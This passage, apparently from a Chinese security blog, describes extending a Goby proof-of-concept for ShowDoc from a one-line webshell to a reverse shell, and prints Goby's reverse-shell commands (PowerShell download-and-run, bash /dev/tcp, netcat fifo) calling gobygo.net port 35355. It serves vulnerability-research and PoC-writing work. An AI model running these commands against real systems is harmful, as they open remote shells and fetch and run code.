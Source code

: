 2.  Go 中如何获取到自定义参数? 查看文档发现，可以使用`ss.Params["cmd"].(string)`的形式获取参数
    
3.  Go 中如何将自定义参数输入到 payload 中？利用前面提及的`fmt.Sprintf("%s",var）`方式
    

### **3.2.3 更进一步：直接反弹 shell**

**想法：**既然可以一句话木马，而大部分时间我们生成一句话木马之后第二步就是反弹 shell，那么为什么第二次不直接执行反弹 shell，难道不比执行一句话命令好？

问题：

1.  如何实现（思路上）？将一句话木马的 paylod 部分由自定义参数命令的方式直接改为反弹 shell 的命令
    
2.  如何实现（实际操作）？查看 Goby 提供反弹 shell 的 demo 文档，然后魔改为自己需要的即可
    
    > https://github.com/gobysec/Goby/wiki/Vulnerability-writing-guide#%E5%A6%82%E4%BD%95%E4%BD%BF%E7%94%A8-goby-%E7%9A%84-godserver-%E5%8F%8D%E5%BC%B9-shell
    
3.  为什么可以反弹 shell，但是所上传文件无法自动删除，`unlink()`函数没触发？因为先执行命令再执行`unlink()`函数，而前者 shell 在反弹过程中堵塞的进程，百度后发现可采取 popen() 启动子进程的方式。(有趣的是，通过该文档，我了解到可以通过`php_uname()`来判断服务器主机系统，进而根据不同系统动态生成 payload 的操作)（GobyShell 只有 10 分钟存活，也可以保证不会长期驻留服务器进程）
    

> 和 @go0p 师傅交流之后，我发现我的想法是错的：我急于直接看到反弹 shell 的效果，只是因为我的测试环境允许。在实战情况下，目标可能不出网，Godserver 服务器可能有一定的问题等等导致反弹 shell。不一定在所有环境下都是 OK 的，所以应该是目标能使用回显就回显，其次才是其他验证方式。
> 
> 参考《GobyPOC 编写建议之其他建议》：https://github.com/gobysec/Goby/wiki/PoC-writing-suggestions#%E5%85%B6%E4%BB%96%E5%BB%BA%E8%AE%AE

```
//Goby生成的godserver相关命令
//ReverseTCPByPowershell
powershell IEX (New-Object Net.WebClient).DownloadString('http://gobygo.net/ps/rs.ps1');rs -H gobygo.net -P 35355
//ReverseTCPByBash
bash -i >& /dev/tcp/gobygo.net/35355 0>&1
//ReverseTCPByNcBsd
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc gobygo.net 35355 >/tmp/f
//ReverseTCPBySh
0<&1-;exec 1<>/dev/tcp/gobygo.net/35355;sh -i <&1 >&1 2>&1
```

![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJ4l1LHCGgS2vtwUic6ufGajllRlAvhuMoyWto4H6FudnIkgxJM2pceia9T7vDmS9nGv61Zd9xrVbQA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJ4l1LHCGgS2vtwUic6ufGajFrSciasibHtommGPUUiaG7XJ5EFqCDOZYdicwMlMG4XYM3hKmIgfaG3wMw/640?wx_fmt=png)

**3.3 最终效果**
------------

代码放在仓库：https://github.com/corp0ra1/showDocDemo

**3.4 发散思维**
------------

上述操作基本把 Goby 提供的功能基本都尝试了个遍，就剩下个 DNSLOG 也尝试一下？比如第二次请求之后不通过返回值判断而是根据 DNSLOG 的结果？

![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjKzq4TFicia2yUjianoH80KtrWElvrR0XQbqBDCHC68DicU6TwYLR54jEJE3rqy2icwicrV85dICfKrJsOQ/640?wx_fmt=png) **04**

**更进一步 - 代码审计**
